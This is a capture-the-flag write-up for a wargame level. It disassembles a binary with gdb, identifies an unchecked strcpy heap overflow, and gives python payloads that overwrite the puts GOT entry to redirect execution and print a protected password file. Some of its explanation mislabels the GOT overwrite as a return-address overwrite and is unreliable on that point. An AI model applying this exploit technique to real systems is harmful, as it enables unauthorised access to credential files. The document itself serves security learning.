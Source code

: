 # Level 7

## First clue
- once logged in as level7 we find again an executable  owned by `level8` 
- we try to execute it without arguments and we get a segfault
- if we write one or more alpha and numeric argiments, we get back `~~`

## Inspect with gdb
- `(gdb) info function` reveals main and m functions, but also a system call, malloc, strcpy, time, puts and printf. 
```
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini


```
## Main
```
    0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
   0x08048524 <+3>:	and    $0xfffffff0,%esp
   0x08048527 <+6>:	sub    $0x20,%esp
   0x0804852a <+9>:	movl   $0x8,(%esp)
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    %eax,%edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax
   0x08048556 <+53>:	mov    %edx,0x4(%eax)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    %eax,0x18(%esp)
   0x08048569 <+72>:	mov    0x18(%esp),%eax
   0x0804856d <+76>:	movl   $0x2,(%eax)
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:	mov    %eax,%edx
   0x08048581 <+96>:	mov    0x18(%esp),%eax
   0x08048585 <+100>:	mov    %edx,0x4(%eax)
   0x08048588 <+103>:	mov    0xc(%ebp),%eax
   0x0804858b <+106>:	add    $0x4,%eax
   0x0804858e <+109>:	mov    (%eax),%eax
   0x08048590 <+111>:	mov    %eax,%edx
   0x08048592 <+113>:	mov    0x1c(%esp),%eax
   0x08048596 <+117>:	mov    0x4(%eax),%eax
   0x08048599 <+120>:	mov    %edx,0x4(%esp)
   0x0804859d <+124>:	mov    %eax,(%esp)
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    0xc(%ebp),%eax
   0x080485a8 <+135>:	add    $0x8,%eax
   0x080485ab <+138>:	mov    (%eax),%eax
   0x080485ad <+140>:	mov    %eax,%edx
   0x080485af <+142>:	mov    0x18(%esp),%eax
   0x080485b3 <+146>:	mov    0x4(%eax),%eax
   0x080485b6 <+149>:	mov    %edx,0x4(%esp)
   0x080485ba <+153>:	mov    %eax,(%esp)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret   


```
Disassemblying main we find out that:
- The program takes 2 arguments.
- It opens a file using the fopen function.
- The file being opened is identified as "/home/user/level8/.pass":
```
(gdb)$ x/s 0x80486e9
0x80486e9:	"r"
(gdb)$ x/s 0x80486eb
0x80486eb:	"/home/user/level8/.pass"
```
- The source address for copying is obtained from the second argument (0x18(%esp)).
- The destination address for copying is obtained from the first argument (0x1c(%esp)).
- The first strcpy call copies the content from the second argument (argv[2]) to the buffer pointed to by the first argument (buf).
- The file descriptor returned by fopen is stored on the stack at DWORD PTR [esp+0x8].
- The size of the buffer to read from the file is set to 0x44 (68 in decimal), and this value is also stored on the stack at DWORD PTR [esp+0x4].
- The address 0x8049960 is moved onto the stack, indicating the destination buffer where the content of the file will be stored.
- fgets is then called to read a line from the file. It reads up to 0x44 characters from the file and stores them in the buffer pointed to by 0x8049960.
- Finally, puts is called to print out the content of the buffer (0x8049960).

## Function m

- it's not called anywhere but it prints out the content of c variable,  located at 0x8049960, that is the variable where main has copied the line read from the file (the shell command) -> in <+195> of main variable c is set as buffer for the fgets function that store the line in it .
- if we analyze its content we discover that is a global variable called "c":
```
(gdb) x/s 0x8049960
0x8049960 <c>:	 ""
```
- function m pass this variable to printf:
```
  0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret 
```

## The vulnerability and how to exploit it

- Buffer Overflow: the strcpy calls do not perform bound checking (check if destination buffer is shorter than source string)

How to exploit it: 
- Overwrite Return Address:  we can overwrite the return address of the puts function with the address of the m function. This would cause the program to execute the m function before the main function returns.
Since the main function take 2 args and the second is copied into the buffer pointed to by the first argument, if we pass the puts function address pointer (the one present in GOT) as first arg and the m function address as second arg, we overwrite the return address of the puts function with the address of the m function, hijacking the control flow of the program. This allows us to redirect the program's execution to the m function, which contains the code to print out the c variable, that point to the .pass file we want to cat. 

## Exploit
- to find the offset of the strcpy buffer we run the program in gdb passing as argument a long string made of set of 4 char (in 32 bit architecture alignement memory addresses are divisible by 4) of the alphabet, lower and uppercase:
```
(gdb) run "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'
```
- we get `Program received signal SIGSEGV, Segmentation fault.
0xb7eb8aa8 in ?? () from /lib/i386-linux-gnu/libc.so.6
`
- that means that EIP was not overwritten, but since when a buffer overflow occurs, the extra characters from the input overwrite adjacent memory locations, including the contents of CPU registers such as eax and edx, we check eax and edx and we find "46464646":
```
(gdb) i register
eax            0x46464646	1179010630
ecx            0x0	0
edx            0x46464646	1179010630
```
- 46 is the ASCII for "F" at position 21, so the end of the buffer is at position 20 => `echo "AAAABBBBCCCCDDDDEEEEF" | grep -o .  |  wc -l`
- we store in /tmp/puts 20 letters + the address of puts function (reversed for little endian) and pass /tmp/exploit as argument to ./level7
- the address of puts:
```
(gdb)$ info function puts
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts@plt

(gdb)$ x/i 0x08048400
0x8048400 <puts@plt>:	jmp    DWORD PTR ds:0x8049928
```
- `python -c 'print "a"*20+"\x28\x99\x04\x08"' > /tmp/puts`
- we store in /tmp/m the address of m function as it appears in info function (reversed for little endian): `080484f4`
- `python -c 'print "\xf4\x84\x04\x08"' > /tmp/m`
- `./level7 $(cat /tmp/puts) $(cat /tmp/m)`
- we get the flag

